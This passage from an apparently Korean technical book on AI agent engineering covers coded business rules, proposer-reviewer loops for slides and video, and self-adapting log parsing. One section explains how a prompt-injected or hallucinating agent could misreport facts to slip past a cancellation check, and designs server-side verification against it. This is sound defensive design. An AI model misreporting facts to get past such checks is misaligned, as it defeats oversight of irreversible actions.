이 실험은 또 하나의 더 보편적 법칙을 드러낸다. 모델과 비계(하네스/harness)는 이쪽이 크면 저쪽이 작아지는 반비례 관계다. 모델이 충분히 강할 때 비계는 더 얇아도 된다. 모델이 스스로 논리를 옳게 이끌어, 코드 해석기가 주는 증분 이득은 그만큼 좁아진다. 모델이 충분하지 않을 때는 비계 안에서 더 많은 일을 해야 한다. 핵심 논리 추론을 코드와 제약 해석기에 맡겨 정확성을 담보하게 하는 것이다. 이 때문에 이 실험은 의도적으로 능력이 약한 모델을 골라 대조를 키운다. 약한 모델에서는 순수 사고 모드가 빈번히 계산을 틀리고, 코드 보조가 정확도를 눈에 띄게 끌어올린다. 반면 충분히 강한 사고 모델으로 바꾸면 순수 사고만으로도 흔히 전체 퍼즐을 풀어 버려, 코드 보조의 증분 이득은 거의 0으로 수렴한다. 그러므로 비계를 얼마나 두껍게 해야 하는가는 당신이 가진 모델의 능력 경계에 달려 있다. 이는 어떤 에이전트 기술을 평가할 때 쉽게 간과되는 전제이기도 하다. 같은 비계라도 모델 능력이 다르면 얻어지는 결론이 전혀 달라질 수 있다.

### 코드를 비즈니스 규칙의 제약으로

이 절은 앞의 하네스 엔지니어링에 대한 직접적 응답이다. 하네스의 핵심 원칙 하나는 "제약: 문서화가 아닌 인코딩"—규칙을 자연어 문서에서 실행 가능한 코드로 옮겨, 권고적 지침이 아니라 시스템 행위의 강제 제약으로 만든다는 것이다. 코드 생성은 에이전트가 이 전환 과정을 자율적으로 완수하게 한다.

비즈니스 규칙, 업무 처리 절차, 의사결정 논리를 자연어로만 서술하면 흔히 모호성으로 가득하다. "합리적인 환불 요청"이란 무엇인가? "긴급 상황"은 무엇으로 정의되는가? 이런 개념의 경계는 자연어로 정하기 어렵다. "구매 후 7일 이내 환불 가능"은 분명해 보이지만, "7일"이 자연일인가 영업일인가? "구매"는 주문 시점인가 발송 시점인가? 이와 대조적으로 코드는 모호함이 없고 실행 가능한 지식 표현 방식을 제공한다. 성공적으로 실행되거나 오류를 던지거나, 둘 중 하나일 뿐 애매한 중간은 없다.

**복잡한 비즈니스 규칙의 정확한 표현.**

**자연어 규칙 vs 코드화 규칙: 보완이지 대체가 아니다**

규칙을 시스템 프롬프트에 적어 두면 좋은 점이 있다. 모델이 규칙에 기반해 사용자에게 **정책을 설명**할 수 있다. 규칙에 기반해 **우회안을 모색**할 수 있다("취소 대신 변경"). 도구 호출 전에 가능성을 예비 판단할 수 있다.

규칙을 코드화해 검증 도구로 만들면 좋은 점이 있다. 코드 논리의 **정확성과 무모호성**—"이해 편차"가 생기지 않는다. 코드 실행의 **확정성**—같은 입력에는 반드시 같은 출력이 나온다. 특히 **복잡한 규칙 조합**에 적합하다—다조건 불린 조합, 시간 계산, 교차 데이터 소스 검증.

실무에서는 둘을 결합해 쓴다. 시스템 프롬프트에는 이해와 소통을 위한 자연어 규칙을 담고, 핵심 의사결정 지점에는 코드화 검증 도구를 "문지기"로 둬 규정 준수를 보장한다.

코드화 규칙의 진짜 가치는 토큰 효율 최적화가 아니라 **되돌릴 수 없는 오류 조작을 방지**하는 데 있다. 주문 취소, 자금 이체, 데이터 삭제—이런 조작은 한번 실행하면 되돌릴 수 없다. 코드화 검증은 조작 전에 마지막 방어선을 세우는 것이며, 이런 안전 보장의 가치는 그 구현 비용을 훨씬 넘어선다.

**검증과 실행의 통합: 체크리스트로 사고를 이끌고, 진위 검증이 문을 지킨다**

독립 검증 도구를 따로 두기보다, 실행 도구 내부에서 먼저 검증하게 하는 편이 낫다. τ-bench(tau-bench, 항공·이커머스 고객 응대 시나리오를 모사하여 에이전트의 도구 호출과 정책 준수 능력을 전문 평가하는 벤치마크)의 항공사 취소 정책을 예로 들어 보자.

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # 선택: 모델 자체 점검용, 서버는 DB 진위로 재검
    expected_has_insurance: bool = None  # 선택: 모델 자체 점검용, 동일
) -> dict:
    """
    항공 예약을 취소한다.

    취소 정책(서버가 DB 진위에 근거해 강제 집행):
    - 규칙 1: 어떤 구간이라도 이미 사용한 주문은 취소 불가
    - 규칙 2: 예약 후 24시간 이내는 무조건 취소 가능
    - 규칙 3: 항공사가 취소한 항공편은 항상 취소 가능
    - 규칙 4: 비즈니스석은 항상 취소 가능
    - 규칙 5: 기본 이코노미와 이코노미는 여행 보험 가입 시에만 취소 가능

    호출 전에 먼저 주문 상세를 조회해 위 정책을 한 줄씩 대조할 것. expected_* 매개변수는
    당신의 판단 근거를 진술하기 위한 것으로, 오직 서버 비교와 감사에 쓰이며 정책 판정에 영향을 주지 않는다.
    """
    # 모든 정책 사실은 일체 DB에서 읽고, 모델 자가 보고값을 절대 신뢰하지 않는다
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # 서버 시계, 모델이 제공하지 않음

    # 모델 자가 보고값과 진위가 일치하지 않을 때 경고를 기록하여, 모델의 오인식이나 잠재적 주입 발견에 쓴다
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

이 설계의 가치는 두 층위로 나누어 봐야 한다.

**첫 번째 층: 매개변수를 사고의 체크리스트로**. 도구 설명에 완전한 취소 정책이 나열되어 있고, 모델에게 "호출 전에 먼저 주문 상세를 조회하고 한 줄씩 대조"하라고 요구한다. 선택적 `expected_*` 매개변수는 모델이 자신의 판단 근거를 명시적으로 적어 내게 한다. 이 매개변수를 제대로 채우려, 모델은 먼저 조회 도구를 호출해 주문 상세를 얻고, 각 조건을 하나하나 확인해야 한다. 매개변수를 채우는 과정 자체가 **강제적 체크리스트**이다. 모델이 좌석이 이코노미이고 보험 미가입임을 조회하면, 호출을 준비하는 과정에서 규칙 5를 알아차려 **아예 호출을 시작하지 않고** 곧장 사용자에게 "이코노미 보험 미가입은 취소할 수 없습니다. 보험 가입 후 취소하거나 변경을 고려해 보세요"라고 말할 가능성이 높다. 이 층의 가치는 사고를 이끌고 무효 호출을 줄이는 데 있다. 그러나 안전 책임은 지지 않는다. `expected_*` 매개변수는 모델의 자기 진술일 뿐이며, 서버는 그것을 결코 사실로 받아들이지 않는다.

**두 번째 층: 서버 진위 검증이 진짜 문지기**. 코드의 핵심 설계를 주목하라. 좌석 등급, 보험 상태, 예약 시간, 구간 사용 여부, 항공편 상태는 전부 서버가 데이터베이스를 조회해 얻는다. 현재 시간은 서버 시계에서 온다. **어떤 정책 사실도 모델 자가 보고 매개변수에서 오지 않는다.** 이것은 군더더기 같은 신중이 아니다. 모델은 환각을 일으킬 수도 있고, 프롬프트 주입으로 조종당할 수도 있다. 앞의 "치명적 삼요소" 분석처럼, 같은 컨텍스트 안의 에이전트는 자신의 결백을 스스로 증명하기 어렵다. 만약 `cabin_class`, `has_insurance`, 심지어 `current_time`을 모델이 채우는 매개변수로 설계했다면, 모델이 (또는 유도받아) 하나의 값을 잘못 보고하는 것만으로 "문지기"는 형해화된다. 마지막 방어선은 반드시 모델이 위조할 수 없는 데이터 위에 세워야 한다. 이는 앞의 "핵심 조작은 독립 검증이 필요"라는 입장과 일맥상통한다. 독립성이란 독립된 모델만이 아니라 독립된 데이터 출처를 더 가리킨다.

3중 보장이 이로써 완결된다. (1) 시스템 프롬프트의 자연어 규칙이 이해와 설명을 돕는다. (2) 도구 설명과 매개변수 설계가 체크리스트가 되어, 모델이 호출 전에 조건을 명시적으로 대조하도록 이끈다. (3) 서버가 데이터베이스 진위에 기반한 코드화 검증이 마지막 문지기가 된다. 앞의 둘은 오류 발생을 줄이고, 세 번째는 오류가 되돌릴 수 없는 손실로 변하는 것을 막는다.

> **실험 5-3 ★★: 소형 모델이 코드화 지식으로 규칙 실행 정확도를 높이는가**
>
> **실험 목표**: 소형 매개변수 모델(Qwen3-4B)이 코드화된 비즈니스 규칙을 통해 복잡한 정책 실행의 정확도와 일관성을 유의미하게 높이는지 검증한다.
>
> **기술 방안**: τ-bench 항공 고객 응대 시나리오에 기반한 대조 실험을 설계한다. **대조군**: 순수 자연어 규칙, 모델 자체 사고에 의존. **실험군**: 3중 보장—시스템 프롬프트에 자연어 규칙 유지, 도구 설명에 완전한 정책을 나열하고 선택적 `expected_*` 매개변수로 모델이 호출 전 한 줄씩 대조(체크리스트), 도구 내부에 모의 DB 진위에 기반한 코드화 검증(정책 사실은 일체 DB 조회, 시간은 서버 시계, 모델 자가 보고 매개변수 불신). 평가 지표: 과제 성공률, 정책 위반 횟수, 무효 도구 호출 횟수, 사용자 경험.
>
> **예상 결과**: 실험군이 대조군보다 유의미하게 우수하다. 더 중요한 것은, 모델이 매개변수를 준비할 때 자율적으로 위반 조작을 식별하고 곧장 사용자에게 대안을 제안하는지 관찰하여 "매개변수를 체크리스트로"의 유효성을 검증한다. 아울러 `expected_*` 자가 보고값과 DB 진위가 일치하지 않는 비율을 통계 내어, "서버 진위 검증"이 오인식을 차단하는 필요성을 검증한다.
>

### 코드 구동 멀티미디어 생성

많은 복잡 문서의 창작은 본질적으로 구조화 데이터의 조직과 표현이다. 발표 자료, 기술 보고서, 대화형 응용을 불문하고, 하부는 모두 코드로 정의된다. HTML이 구조를 기술하고, CSS가 양식을 통제하며, JavaScript가 상호작용을 구현한다. 전통적 문서 창작은 GUI 인터페이스의 위지위그 편집에 의존하지만, 에이전트에게는 직관적이지도 효율적이지도 않다. GUI 조작은 시각적 이해와 정확한 좌표 위치 지정을 요구하기 때문이다. 코드 생성을 통해 에이전트는 시각적 위치 지정의 난제를 우회하고, 문서에 대한 정확한 통제 능력을 얻는다. 모든 요소의 위치, 양식, 내용이 명확히 정의되어, 프로그램적 방식으로 수정·최적화할 수 있다.

**PPT 생성 에이전트.**

PPT 창작은 흔히 시간과 노력을 많이 잡아먹는다. 전형적인 학술 보고 PPT 하나에 수십 장의 슬라이드가 들어갈 수 있고, 매 장마다 레이아웃을 정성들여 설계하고, 요점을 추려 내고, 차트를 골라 담아야 한다. PPT 창작을 코드 생성 문제로 다시 정의하면 복잡도를 크게 줄일 수 있다. 현대 PPT 프레임워크(Slidev 등)는 우아한 설계 철학을 채택한다. 마크다운과 HTML로 발표 내용을 정의한다. 슬라이드 한 장을 만들려면 간결한 마크업 언어만 작성하면 되고, 렌더링, 레이아웃, 애니메이션은 프레임워크가 자동 처리한다. 코드 생성 능력을 갖춘 에이전트에게 대단히 우호적이다.




코드를 생성할 수 있는 것만으로는 부족하다. **에이전트는 코드를 작성한 뒤 실제 렌더링 결과를 알지 못한다.** 내용이 너무 빽빽한지, 글자가 넘치는지, 이미지 크기가 적절한지는 실제로 렌더링해 봐야 발견할 수 있다. 그러므로 **제안자-검토자(Proposer-Reviewer)** 메커니즘을 도입하여(그림 5-5), 코드 작성과 품질 리뷰를 두 개의 독립 에이전트로 분리한다.

- **Proposer 에이전트**는 Slidev 코드를 생성하고, 내용의 논리적 구조를 이해하여 합리적 단위로 분해한다.
- **Reviewer 에이전트**는 코드를 실행해 매 장을 이미지로 렌더링하고, 비전 LLM(이미지를 "볼" 줄 아는 다모달 대언어모델)로 내용 밀도, 가독성, 레이아웃 합리성, 시각적 미감 등의 차원에서 렌더링 결과를 분석하여, **구조화된 개선 제안**을 생성한다. 모호한 "보기 좋지 않다"가 아니라 구체적이고 실행 가능한 지도(예: "3 페이지: 내용이 너무 많습니다. 분할을 권장합니다", "7 페이지: 코드 블록 글꼴이 너무 작습니다. 14pt로 키우세요")이며, 페이지 번호, 문제 유형, 심각도 등 필드를 포함한다.

Proposer는 피드백을 받아 의도를 이해하고 코드를 수정하며, 새 버전은 다시 Reviewer에게 리뷰를 넘긴다. 품질 기준에 도달하거나 최대 횟수(예: 5회)에 이를 때까지 반복한다. "품질 기준 도달"과 "최대 회수"가 바로 루프 엔지니어링이 요구하는 두 종류의 명시적 종료 조건이다. 전자는 검토자가 목표 달성을 판정하는 것이고, 후자는 예산 상한으로 순환 통제를 막는 것이다.

이 장의 제안자-검토자 반복 순환은 제4장의 **사전 승인**과 같은 근원이다. 둘 다 제안자-검토자 패러다임의 인스턴스로, 생성과 리뷰를 분리하고, 쌍모델이 독립 평가(루프 엔지니어링의 언어로, "제작자"와 "검증자"가 분리된 서브 에이전트)를 수행한다. 차이는 목표와 형태에 있다. 제4장은 그것을 되돌릴 수 없는 조작의 안전 리뷰에 쓰고, 검토자는 단일 조작에 승인 또는 거부를 내린다. 이 장은 그것을 내용 품질의 반복 개선에 쓴다. 다회 순환이며, 검토자는 제안자가 보지 못하는 새 정보(렌더링 결과)를 접한다. 핵심 설계 원칙은 동일한 맥락을 따른다(목표 제약 공유, 동일 계열 모델의 동일 부류 오류 확률을 낮추기 위해 다른 모델 패밀리 사용, 피드백은 특수 사건으로서 Proposer 궤적에 추가). 단일 에이전트 순환이 아닌 쌍 에이전트 분업의 **핵심 장점은 컨텍스트 관리**에 있다. Reviewer는 매번 최신 버전의 렌더링 이미지만 처리하며, 과거 버전의 간섭을 받지 않는다. Proposer는 구조화 텍스트 피드백만 축적하여, 토큰 소비가 적고 추론이 더 쉽다. 반면 단일 에이전트 방안은 같은 컨텍스트에서 수십 장의 렌더링 이미지에 대한 다회 반복을 축적해야 하여, 컨텍스트가 금세 한계를 넘는다. 이 메커니즘은 이어지는 비디오 편집과 로그 시각화 실험에서 반복 사용된다. 제10장에서 제안자-검토자 외의 다른 다중 에이전트 협업 모드를 더 깊이 탐구한다.

> **실험 5-4 ★★: 논문 기반 PPT 자동 생성**
>
> **실험 목표**: 학술 논문에서 고품질 발표 자료를 자동 생성하여, 내용 창작의 품질 통제에서 제안자-검토자 메커니즘의 유효성을 검증한다.
>
> **기술 방안**: Slidev 프레임워크를 사용한다. Proposer 에이전트가 논문 PDF를 읽고, 장 구조, 핵심 논점, 그림과 표를 추출하여 PPT 구조를 계획하고, 한 장씩 Slidev 코드를 생성한다. **핵심 단계**: Reviewer 에이전트가 매 장의 스크린샷을 렌더링하고, 비전 LLM으로 렌더링 효과를 검사하여, 글자 넘침, 내용 과밀, 이미지 크기 부적절 등의 문제를 식별하고, 구조화된 개선 제안을 생성한다. 효과가 기준에 달할 때까지 반복한다.
>
> **인수 기준**: 10~20장의 PPT를 생성하여 논문의 주요 기여를 망라한다. 원 그림/표를 3곳 이상 담으며 글자 설명과 일치한다. 렌더링에 글자 넘침이 없고 레이아웃이 합리적이다. 단일 에이전트 자기 리뷰와 제안자-검토자 분업을 컨텍스트 소비와 생성 품질에서 대비한다.
>

> **실험 5-5 ★★: 논문 설명 비디오 자동 생성**
>
> **실험 목표**: PPT 생성 능력을 확장하여, 시각과 청각 채널을 결합해 비디오 설명 자동 생성을 구현한다.
>
> **기술 방안**: 실험 5-4의 PPT 생성 흐름에 기반해, 에이전트는 동시에 매 장의 구어체 설명 문장(낭독이 아니라 안내하는 서술)을 생성하고, TTS(텍스트 음성 변환)로 음성을 합성하며, ffmpeg로 PPT 스크린샷과 음성을 동기화하여 비디오를 합성한다.
>
> **인수 기준**: 비디오 길이 5~15분, 매 장 표시 시간과 음성 길이가 정확히 일치, 설명 내용과 시각 요소가 서로 호응한다.
>
>
> 
>
>

**비디오 편집 에이전트.**

범용 컴퓨터 사용으로 비디오 편집을 하면 근본적 과제에 직면한다. 비디오 편집 소프트웨어의 GUI는 대단히 복잡하여, 다량의 타임라인, 레이어, 효과 패널을 포함한다. 에이전트는 이 인터페이스 요소를 정확히 위치시키고 마우스와 키보드로 조작해 편집해야 하며, 정확한 좌표 출력이 매우 어렵다.

비디오 편집을 API 호출과 코드 생성 문제로 재구성하면 복잡도가 크게 낮아진다. 많은 전문 소프트웨어(Blender—오픈소스 3D 창작과 비디오 합성 도구로 파이썬 스크립트 제어를 지원; FFmpeg—오디오/비디오 처리 분야의 명령줄 만능 도구)가 프로그램적 API 인터페이스를 제공하여, 구조화되고 조합 가능한 방식으로 핵심 기능을 노출한다. 예컨대 블렌더 파이썬 API는 코드로 비디오 클립의 가져오기, 잘라내기, 정렬, 전환 효과, 오디오 믹싱 등 조작을 정확하게 제어할 수 있으며, 각 조작은 하나의 명확한 함수 호출에 대응한다. 에이전트에게 자연어 요구를 API 호출로 변환하는 것이 GUI 인터페이스를 이해하고 마우스 클릭을 모방하는 것보다 훨씬 쉽다. PPT 생성과 마찬가지로, 비디오 편집에도 제안자-검토자 메커니즘이 쓰인다. Proposer 에이전트가 블렌더 스크립트를 생성하고, Reviewer 에이전트가 핵심 프레임을 렌더링해 비전 LLM으로 효과를 검사하며 수정 제안을 피드백한다.

> **실험 5-6 ★★: API 기반 지능 비디오 편집**
>
> **실험 목표**: 에이전트가 블렌더 파이썬 API 코드를 생성해 비디오 편집을 구현하는 능력을 검증하고, 시각 피드백 기반의 제안자-검토자 메커니즘이 멀티미디어 콘텐츠 처리에서 갖는 역할을 평가한다.
>
> **핵심 과제**: 사용자의 자연어 편집 요구를 이해하고 정확한 API 호출 시퀀스로 변환하며, 다양한 편집 조작(잘라내기, 합치기, 자막, 오디오 트랙 믹싱, 시각 효과)을 처리하고, 생성된 파이썬 스크립트가 올바르게 실행되게 한다. Proposer 에이전트는 코드를 작성한 뒤 비디오 효과를 직접 판단하지 못하며, 반드시 Reviewer 에이전트가 렌더링하고 비전 LLM으로 핵심 프레임을 검사해야 한다.
>
> **기술 방안**: 사용자가 비디오 소재(서핑, 하이킹, 스키 등 장면이 포함된 원본 소재 등)를 제공하고 자연어로 요구를 서술한다("서핑 부분을 잘라 줘" 등). Proposer 에이전트는 비디오 분석 서브 에이전트를 통해 **두 단계 위치 전략**을 채택한다.
>
> **첫 단계, 거친 단위 위치**: 서브 에이전트를 호출해 비디오 경로, 10초 간격 스크린샷, 목표 물음을 넘긴다. 서브 에이전트는 ffmpeg로 핵심 프레임을 잘라 내고, 모든 스크린샷과 물음을 비전 LLM에 넣어, 장면 구간("서핑은 40~110초")을 반환한다.
>
> **둘째 단계, 정밀 단위 위치**: 더 좁은 범위와 초당 스크린샷 밀도로 서브 에이전트를 다시 호출해, 경계 시점을 정확히 위치시킨다.
>
> 비디오 분석을 서브 에이전트로 캡슐화하면 대량의 스크린샷이 주 에이전트의 컨텍스트를 차지하는 것을 피할 수 있다. 위치 설정 후 블렌더 API 스크립트를 생성한다. Reviewer 에이전트는 빠른 미리보기를 실행해 핵심 프레임을 검사하고 수정 제안을 피드백하며, 기준 도달까지 반복한 뒤 최종 렌더링을 수행한다.
>
> **인수 기준**: 에이전트가 비디오에서 서로 다른 장면을 정확히 식별하고, 자연어 지시에 따라 올바른 편집 스크립트를 생성한다. 시작과 끝 지점 위치가 정확하다(오차 3초 이내). 지시가 효과 요구(슬로우 모션, 전환, 자막)를 포함할 경우 생성된 비디오가 효과를 올바르게 적용한다. Reviewer 에이전트가 명백한 오류(핵심 내용 누락, 무관한 단편 포함)를 감지하고 수정을 촉발한다. 최종 출력 비디오 파일의 형식이 올바르고 화질이 예상에 부합한다.
>

### 코드를 시스템 어댑터로

앞 몇 절의 코드는 대부분 "사람 향한" 것을 산출했다. 보고서, 슬라이드, 인터페이스가 그것이다. 이 절의 코드는 또 다른 방향을 가리킨다. **기계와 기계를 연결하는 것**이다. 현실 시스템에서 에이전트가 상대해야 할 외부 서비스는 흔히 기성 SDK가 없고, 인터페이스가 규범화되어 있지 않다. 문서가 빠져 있거나, 반환 형식이 비표준이거나, 필드가 버전을 따라 표류한다. 이런 상황에서 에이전트는 누군가 미리 어댑터 층을 작성해 주기를 기다릴 필요 없이, 현장에서 인터페이스 문서를 읽거나 실제 응답 한두 개를 직접 관찰해, 즉석에서 어댑터 코드를 생성한다. HTTP 클라이언트를 구성하고, 인증 헤더를 조립하고, 비표준 반환 구조를 파싱하고, 상류의 데이터 모델을 하류가 소비할 수 있는 모양으로 번역한다. 코드는 여기서 임의의 시스템을 연결하는 "만능 접착제"가 된다. 어디가 이어지지 않으면 현장에서 접착제를 한 조각 생성해 메우면 된다. 이것이 바로 메타 능력의 "시스템 인터페이스" 방향의 핵심이다. 이어서 전개할 로그 자기적응 파싱은 이 능력이 관측 가능성 시나리오에서 구체화된 것이다. 계속 진화하는 로그 형식에 맞서, 에이전트는 역시 현장에서 파싱 코드를 생성해 적응한다.

이 "만능 접착제"는 **아예 API가 없는 시스템**으로까지 뻗칠 수 있다. 외부 시스템이 그래픽 인터페이스만 노출할 때, 에이전트는 먼저 컴퓨터 사용(제9장에서 상세히 소개)으로 인터페이스를 조작하고, 이어서 성공한 조작 시퀀스를 코드로 고정해 RPA 도구로 만들 수 있다. 미래에 같은 과제를 수행할 때 코드를 직접 실행하여, 비싼 시각적 사고를 다시 호출하지 않고도 매우 높은 속도와 안정성으로 조작을 완수한다. RPA는 "시스템 어댑터"가 무인터페이스 시스템 위에서 취하는 극단적 형태라 할 수 있다. 이런 "작업 흐름 녹화와 고정" 메커니즘은 제8장에서 전개한다.

데이터 처리는 소프트웨어 시스템에서 가장 흔하면서도 가장 골칫거리인 과제 중 하나다. 근원은 데이터 형식의 다양성과 끊임없는 변화에 있다. 같은 시스템이 진화 과정에서 데이터 형식을 여러 차례 바꿀 수 있다. 새 필드 추가, 중첩 구조 변경, 새 유형 도입이 그것이다. 매 형식마다 파싱 코드를 손으로 작성하면 유지보수 비용이 극히 높고, 형식이 바뀔 때마다 파싱 논리를 갱신하고 호환성을 테스트하고 새 버전을 배포해야 한다.

코드 생성은 새로운 접근을 제공한다. 에이전트가 새 형식을 만났을 때 표본 데이터에 기반해 임시로 파싱 코드를 생성하여, 시스템이 데이터 형식의 진화에 자동 적응하고, 인력 개입 없이 동작하게 하는 것이다.

**에이전트 로그 파싱과 시각화.**

에이전트 시스템의 관측 가능성은 실행 흐름의 시각화에 의존한다. 복잡한 에이전트 과제 하나에는 수백 단계의 조작이 들어갈 수 있고, 여러 차례의 LLM 호출, 수십 개의 도구 실행, 여러 서브 에이전트 상호작용이 관련된다. 이런 데이터를 시각화하는 데는 여러 과제가 따른다. 서로 다른 도구가 서로 다른 구조의 데이터를 반환하며, 형식이 시스템 반복에 따라 계속 진화한다. 하나의 완결된 궤적은 수십만 자에 달할 수 있어, 개관과 세부 사이의 균형을 잡기 어렵다.

코드 생성은 우아한 해법을 제공한다. 자동 복구 피드백 순환을 세우는 것이다. 프런트엔드가 파싱할 수 없는 로그 형식을 만났을 때, 오류를 표시하는 게 아니라 자동으로 실패 정보(원본 로그 표본, 상세 오류 보고)를 에이전트에 보고한다. 에이전트는 표본 데이터 구조를 분석해 올바르게 파싱할 수 있는 프런트엔드 코드를 생성한다. 코드는 먼저 가상 브라우저에서 자동 테스트된다(파싱 정확성을 검증하고, 비전 LLM으로 시각화 효과를 검사). 통과하면 프런트엔드 시스템에 핫 업데이트된다.

> **실험 5-7 ★★★: 자기 적응 로그 파싱 시스템**
>
> **실험 목표**: 자기 진화하는 에이전트 로그 시각화 시스템을 구축한다.
>
> **기술 방안**: 초기 시스템은 기본 형식만 지원한다. 프런트엔드가 파싱 실패를 검출→에이전트에 보고→파싱 코드 생성→가상 브라우저 테스트→핫 업데이트 배포. 전 과정이 자동화된다.
>
> **인수 기준**: 실패를 자동 검출해 학습을 촉발하고, 생성된 코드가 자동 테스트를 통과하며, 핫 업데이트 후 새 형식을 올바르게 파싱한다.
>

**에이전트 실행 로그 자동 분석과 문제 진단.**

생산 환경의 에이전트는 대량의 궤적 로그(trajectory, 매 과제의 전체 과정을 기록)를 만들어 낸다. 그러나 로그에서 문제를 식별하고, 근원을 위치시키고, 테스트 케이스를 구축하는 것은 고비용 작업이다. 문제 위치 지정이 어렵다. 과제 실패는 여러 모듈의 협력 오류에서 비롯될 수 있기 때문이다. 재현 비용이 높다. 생산 환경의 복잡성은 테스트 환경에서 모사하기 어렵다. 수정된 문제가 반복 출현하기 쉽다. 체계적 회귀 테스트가 부족하기 때문이다.

코드 생성은 진단에 자동화 경로를 제공한다. 에이전트는 생산 로그를 읽고, 아키텍처 문서와 PRD(제품 요구 문서)와 결합해 실행 흐름이 기대에 부합하는지 자동 판정하고, 문제가 있는 단계와 모듈을 위치시킨다. 분석 결과에 기반해 구조화된 문제 보고서(우선순위, 모듈, 설명, 개선 제안)와 회귀 테스트 케이스를 생성한다. 테스트 케이스는 문제 궤적 ID와 핵심 상호작용 차수를 인용하며, 테스트 프레임워크가 자동으로 재생해, 수정된 시스템이 같은 입력 아래 올바른 행위를 산출하는지 검증한다. 마지막으로 에이전트는 MCP로 깃허브에 연결해 이슈를 생성하고 관련 개발자에게 할당하여, 문제 발견에서 과제 배정까지의 전 자동화를 완수한다.

> **실험 5-8 ★★★: 생산 로그의 지능 진단 시스템**
>
> **실험 목표**: 생산 궤적에서 자동으로 문제를 발견하고, 테스트 케이스를 생성하고, 작업 항목을 생성한다.
>
> **기술 방안**: 에이전트가 생산 환경의 궤적 집합을 읽고, 시스템 아키텍처 문서와 PRD를 결합해 분석한다. 문제 패턴을 식별하고, 관련 모듈을 위치시킨다. 구조화된 문제 보고서(우선순위, 모듈, 설명, 개선 제안)를 생성한다. 회귀 테스트 케이스를 자동 생성한다(궤적 ID와 상호작용 차수를 인용, 테스트 프레임워크가 자동 재생 검증). MCP로 깃허브에 연결해 이슈를 자동 생성한다.
>
>
> 
>
>

### 코드를 제네러티브 UI로

